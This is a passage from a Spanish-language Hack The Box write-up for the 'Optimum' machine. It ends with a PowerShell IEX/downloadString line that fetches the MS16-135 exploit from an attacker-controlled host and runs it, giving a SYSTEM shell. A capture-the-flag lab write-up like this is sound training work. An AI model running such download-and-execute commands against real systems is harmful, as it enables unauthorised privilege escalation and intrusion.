 ## Conseguimos <u>Shell</u> como <u>nt authority\system</u> [📌](#ms16-135) {#ms16-135}

Volvamos a ejecutar el contenido del script (ya no deberíamos ver ese error):

```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.14.2:8000/MS16-135.ps1'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6bash_kostasSH_MS135_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

¡DE MARAVILLA!! Ya funciona, pero parece que todo esta igual ¿no? e.e Puesssssssssssssss:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6bash_sysSH_MS135.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Tamos tamos tamoooooooooooooooooooooooooooos, hemos migrado al usuario `nt authority\system` y obtenido una **terminal** como él (: 

Linda manera de escalar, me g u s t o.

Ya podríamos ver las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

...

Me gusto bastante la máquina, sobre todo la escalada, no me había topado con ese "problema" de estar en una arquitectura pero a la vez no, loco loco.

Este es el final de nuestro encuentro, pero nos leeremos con más cositas, bendiciones, besitos y como siempre, a seguir rompiendo tooooooooooooodo!!